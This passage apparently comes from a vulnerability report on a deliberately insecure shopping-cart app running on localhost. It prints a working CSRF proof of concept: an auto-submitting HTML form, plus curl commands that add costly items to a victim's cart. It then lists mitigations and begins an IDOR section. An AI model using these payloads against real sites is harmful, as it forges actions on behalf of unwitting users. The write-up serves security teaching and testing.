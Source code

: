 **Expected Result**: Item is successfully added without any token validation.

#### Verify the attack worked:
```bash
curl "http://localhost:9000/cart?user=victim"
```

#### HTML form for CSRF attack:
Save as `csrf_attack.html`:
```html
<html>
<body onload="document.forms[0].submit()">
  <form action="http://localhost:9000/cart/add" method="POST">
    <input type="hidden" name="user" value="victim" />
    <input type="hidden" name="product" value="1" />
  </form>
</body>
</html>
```

Open this file in a browser while the victim is logged in - it will automatically add items to their cart.

#### Multiple items:
```bash
# Add multiple expensive items to victim's cart
curl -X POST "http://localhost:9000/cart/add?user=victim&product=1"  # Laptop $999.99
curl -X POST "http://localhost:9000/cart/add?user=victim&product=4"  # Monitor $299.99
curl -X POST "http://localhost:9000/cart/add?user=victim&product=1"  # Another Laptop $999.99
```

### Mitigation
- Implement CSRF tokens (synchronizer token pattern)
- Validate origin and referer headers
- Use SameSite cookie attribute
- Re-authenticate for sensitive operations

---

## Vulnerability 4: IDOR (Insecure Direct Object Reference)

### Endpoint
`GET /cart?user=<username>`

### Description
The application allows any user to view any other user's cart by simply changing the `user` parameter. There is no authentication or authorization check.

### Impact
- Unauthorized data access
- Privacy violation
- Information disclosure
- Horizontal privilege escalation
